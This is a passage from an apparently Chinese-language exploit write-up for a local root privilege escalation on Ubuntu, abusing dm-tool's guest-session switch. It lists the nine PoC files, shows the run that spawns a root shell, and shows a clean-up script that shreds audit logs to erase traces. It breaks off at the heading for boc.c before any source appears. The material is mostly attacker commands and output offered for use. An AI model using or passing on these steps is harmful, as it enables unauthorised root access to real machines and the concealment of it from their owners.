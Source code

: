 

```
XDG_SEAT_PATH="/org/freedesktop/DisplayManager/Seat0" /usr/bin/dm-tool lock
XDG_SEAT_PATH="/org/freedesktop/DisplayManager/Seat0" /usr/bin/dm-tool switch-to-guest
```



**三、PoC**

漏洞PoC包含9个文件，如下所示：



```
kodek/bin/cat
kodek/shell.c
kodek/clean.sh
kodek/run.sh
kodek/stage1.sh
kodek/stage1local.sh
kodek/stage2.sh
kodek/boclocal.c
kodek/boc.c
```

攻击者可以运行如下命令，获取root权限：



```
@ubuntu:/var/tmp/kodek$ ./stage1local.sh 
@ubuntu:/var/tmp/kodek$ 
[!] GAME OVER !!!
[!] count1: 2337 count2: 7278
[!] w8 1 minute and run /bin/subash
@ubuntu:/var/tmp/kodek$ /bin/subash
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~#
```

如果漏洞利用失败，你只需要再重新运行一次利用代码即可。

root shell获取成功后，你可以根据需要决定是否清理漏洞利用文件及日志，清理命令如下：



```
root@ubuntu:/var/tmp/kodek# ./clean.sh 
/usr/bin/shred: /var/log/audit/audit.log: failed to open for writing: No such file or directory
Do you want to remove exploit (y/n)?
y
/usr/bin/shred: /var/tmp/kodek/bin: failed to open for writing: Is a directory
root@ubuntu:/var/tmp/kodek#
```

具体代码如下。

boc.c
